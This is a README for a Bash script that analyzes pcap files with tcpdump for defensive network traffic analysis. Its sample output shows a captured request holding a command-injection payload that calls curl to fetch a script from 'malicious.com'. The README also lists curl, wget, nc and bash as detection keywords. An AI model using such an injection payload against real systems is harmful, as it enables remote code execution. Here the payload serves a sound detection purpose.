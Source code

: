 # Traffic-Analysis-Tools
A better way to analyze traffic
# Traffic Analysis Tools 🚦🔍

This repository contains a collection of tools to help analyze and visualize network traffic captured in PCAP files. These tools aim to provide an intuitive interface and a range of analysis options, enhancing the understanding of network behavior.

## Table of Contents 📝
- [Overview](#overview-)
- [Tools](#tools-)
  - [tCpDump.sh](#tcpdumpsh-)
- [Prerequisites](#prerequisites-🛠️)
- [Installation](#installation-⚙️)
- [Usage](#usage-🚀)

## Tools 🧰

### tCpDump.sh 📊
`tCpDump.sh` is an interactive Bash script that streamlines the analysis of pcap files using `tcpdump`. It provides a user-friendly menu with 24 analysis options, enabling you to:
- List source and destination IPs.
- Analyze conversation statistics (sequence and acknowledgment numbers).
- Detect packet retransmissions and anomalous traffic.
- Visualize conversation traces with Chart.js.
- Search for suspicious commands ( `curl`, `wget`) in payloads.

## Prerequisites 🛠️
To use `tCpDump.sh`, ensure the following are installed:
- **tcpdump**: Required for analyzing pcap files.
  - Install on Debian/Ubuntu: `sudo apt-get install tcpdump`
  - Install on Red Hat/CentOS: `sudo yum install tcpdump`
- **geoip-bin** (optional): Enables GeoIP analysis for mapping IPs to locations.
  - Install on Debian/Ubuntu: `sudo apt-get install geoip-bin`
- A Unix-like system with Bash ( Linux, macOS, WSL on Windows).
- PCAP files (`.pcap` or `.pcapng`) for analysis.

## Installation ⚙️
1. Clone the repository:
   ``` 
   git clone https://github.com/your-username/Traffic-Analysis-Tools.git
   cd Traffic-Analysis-Tools
   ```
2 Make the script executable:

Make the script executable:

  ```
   chmod +x tCpDump.sh
   ```

Ensure tcpdump is installed (see Prerequisites).
(Optional) Install geoip-bin for GeoIP support.
Usage 🚀
Run the script and follow the interactive menu:
  ```
   ./tCpDump.sh
  ```
Example Workflow
Select Option 1 to list available pcap files in the current directory.
Select Option 2 to analyze a pcap file (capture.pcap).
Choose from 24 analysis options, such as:
Option 2: Display source and destination IP addresses.
Option 22: Visualize conversation trace (outputs Chart.js config).
Option 24: Search for suspicious commands like curl or wget.
Sample Output
```

$ ./tCpDump.sh
Please choose an option:
1. List available pcap files
2. Analyze a pcap file
3. Show tcpdump man page (related to pcap)
4. Exit

Option: 2
Enter the pcap file name: capture.pcap
Choose an analysis option:
...
24. Search for suspicious commands
Option: 24
Searching for suspicious commands (curl, wget, nc, bash)...
192.168.1.10.12345 > 93.184.216.34.80: Flags [P.], seq 1:200, ack 1, win 512
GET /?cmd=curl%20http://malicious.com/script.sh HTTP/1.1
Host: example.com
--
Note: Found commands may appear in User-Agent strings, URLs, or payloads. Review context for suspicion.
```
